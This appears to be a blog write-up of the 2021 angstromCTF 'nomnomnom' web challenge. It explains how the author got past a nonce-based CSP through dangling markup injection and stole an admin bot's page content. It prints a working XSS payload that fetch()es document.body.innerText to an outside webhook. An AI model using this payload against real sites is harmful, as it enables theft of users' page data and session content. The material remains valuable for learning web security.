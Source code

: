 ```yaml
---
title: "2021 ångstromCTF - nomnomnom Challenge"
layout: post
date: 2021-08-04 11:25
image: /assets/images/favicon/apple-touch-icon-76x76.png
headerImage: false
tag:
- CTF
- Web
- Dangling Markup
category: blog
author: Casparov
description: Writeup for the nomnomnom Web challenge in the 2021 ångstromCTF.
---
```



## <u> The Challenge </u>
I had the pleasure of participating in the 2021 ångstromCTF, and within it, the challenge I ended up enjoying the most was:

&nbsp;<img class="image" src="/assets/images/nomnomnom.PNG">

## <u> Analysis </u>

To begin, as per usual for any web challenge I immediately looked at the source code, html code and the game itself. A few moments later it's safe to say that this challenge is an XSS challenge, due to this section inside the source code:

&nbsp;<img class="image" src="/assets/images/nomnomnomxss.PNG">&nbsp;

The game allows you to manually enter your own name within the browser window here, which provides an xss vector via the name variable. Any HTML tags inserted as name will be treated as actual HTML code!

## <u> Solution </u>

It took quite a while to find the solution for this challenge, and I started to go down an iframe rabbit hole. The main problem was the fact there was a `CSP (Content Security Policy)` that was blocking every script tag I provided because it required the usage of a randomly generated `nonce` as an attribute.

&nbsp;<img class = "image" src="/assets/images/nomnomnomnonce.PNG">
<img class = "image" src="/assets/images/nomnomnomnonce2.PNG">&nbsp;

That was until I found out that unfinished script tags ate (haha! nom'd) the script tag that was below it. The good thing about this is that it meant I could inject javascript code into the `<script src>` attribute with the nonce as the attribute of it, due to firefox being very weird with a topic called Dangling Markup.

The solution therefore is called a Dangling Markup Injection.
The report button sent a Simulated browser in admin context via Puppeteer within firefox, so the xss could be used to steal the "admin's" browser window, which was the only thing that displayed the flag, as seen three images above inside the `extra` variable.

In order to steal the admin's browser window though, we need to send their `document.body.innerText` to a webhook. Luckily, https://webhook.site is an easy solution to this and so the final solution to this problem is:

```html
<script src="data:text/javascript, fetch('webhookurlgoeshere', {method: 'POST', mode: 'no-cors', body: document.body.innerText})"
```

The `no-cors` mode basically allows us to bypass any problems with `CORS (Cross-Origin-Resource-Sharing)` which in turn stops any `Access-Control-Allow-Origin` errors.

But wait... that has nom'd everything including the report button functionality! Easy fix: just copy and paste the report function into the firefox console and run the function!

```javascript
function report() {
    fetch('/report/f8f9270fe102e65a', {
        method: 'POST'
    })
}
```

&nbsp;<img class = "image" src="/assets/images/report.PNG">&nbsp;

Once you have done that, your webhook.site should have recieved a request with the flag in it!

<img class = "image" src="/assets/images/sol.PNG">

Special thanks to Clanger and Feldma from my team for helping me with this challenge for a long time. This challenge ended up taking me a good 2 days due to my lack of knowledge about Dangling Markup. But it was still incredibly fun none-the-less!